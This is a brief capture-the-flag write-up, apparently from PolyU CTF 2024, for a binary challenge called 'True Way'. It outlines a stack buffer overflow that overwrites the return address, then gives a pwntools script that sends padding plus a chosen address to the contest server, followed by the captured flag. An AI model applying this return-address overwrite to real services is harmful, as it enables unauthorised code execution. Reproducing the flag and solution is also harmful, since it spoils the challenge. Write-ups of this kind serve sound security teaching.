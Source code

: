 ## True Way 正路

decompile
=> read 256 + 16 char
=> buffer overflow rewrite return address
=> gdb find way45
=> get address after check obstacle

```py
from pwn import *
import struct

server_address = "chal.polyuctf.com"
port = 31338
conn = remote(server_address, port)

offset = b'a' * 256 + b'b' * 8
return_address = struct.pack("<Q", 0x401cae)
payload = offset + return_address
conn.sendline(payload)

conn.interactive()
```

PUCTF24{y0u_5k1pp3d_7h3_0b574cl3_f1nd_7h3_c0rr3c7_w4y_01e79b412e58108b7738c1b5369d7b04}
